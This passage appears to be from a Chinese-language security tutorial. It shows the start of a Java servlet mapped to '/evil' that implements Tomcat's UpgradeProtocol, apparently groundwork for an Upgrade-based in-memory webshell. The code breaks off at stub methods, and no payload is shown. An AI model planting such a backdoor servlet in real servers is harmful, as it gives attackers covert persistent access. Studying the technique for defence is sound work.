 [![](assets/1708482741-f1921845cb79d1d17b0b8fc83e88df31.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211002806-5eb8d074-c831-1.jpeg)

#### 2.14.1.2 利用 Tomcat 搭建

当然也是可以利用`Tomcat`来搭建的，只需要`TestUpgrade.java`即可，因为里面含有定义的`servlet`逻辑：

```plain
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Request;
import org.apache.coyote.Adapter;
import org.apache.coyote.Processor;
import org.apache.coyote.UpgradeProtocol;
import org.apache.coyote.Response;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@WebServlet("/evil")
public class TestUpgrade extends HttpServlet {

    static class MyUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
```